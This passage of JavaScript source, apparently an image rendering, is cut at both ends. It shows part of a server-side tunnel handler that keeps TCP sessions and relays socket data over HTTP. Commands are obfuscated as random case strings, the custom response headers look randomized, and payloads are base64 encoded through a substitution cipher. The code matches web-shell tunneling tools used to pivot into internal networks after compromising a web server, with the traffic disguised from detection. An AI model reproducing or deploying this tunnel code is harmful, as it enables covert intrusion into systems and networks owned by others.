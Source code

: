 ```javascript
          
          
          if (data) {
            session[readbuf].unshift(data);
          }
        })

        session[tcphandle].on('connect', async function () {
          session[run] = true;
          session[writebuf] = new Array();
          session[readbuf] = new Array();
        });

        session[tcphandle].on('error', function (error) {
          session[tcphandle].destroy();
          session[run] = false;
          res.set({
            'Eegmsjowdhwriinoj': 'z3Fx6vOKX8m3Dm5yUUNQASxM862WJxEv8xVRY8h2jObzFHI',
            'Zhdmrecmdz': 'efrlfKv5iVJppPNd_IfOkDfOY0WVf0cJo6Nd4roKtFVV4L4PyN_ZJJN9PeJVrq'
          });
          return res.end();
        });
        break;
      }
      case 'rtIwgIRShAOWL2ltogrJNQlVpF': {
        
        console.log("[!] Disconnect");
        console.log(mark);
        session[run] = false;
        
        
        
        
        
        
        
        

        return res.end();
      }
      
      case 'HbQ3SDPRgsvCxb8Llh7gcB': {
        var readBuffer = "";
        if (session[readbuf] == undefined) {
          return res.end();
        }
        if (session[readbuf].length > 0) {
            readBuffer = session[readbuf].pop();
          }

        running = session[run];
        writebuffunc(session, mark);

        if (running) {
          res.set('Eegmsjowdhwriinoj', 'MYBTsrWPJojQDO2hE');
          res.set('Connection', 'Keep-Alive');

          var body = StrTr(Buffer.from(readBuffer).toString('base64'), en, de);
          
          var _tmp = Buffer.from(readBuffer).toString("hex");
          
          

```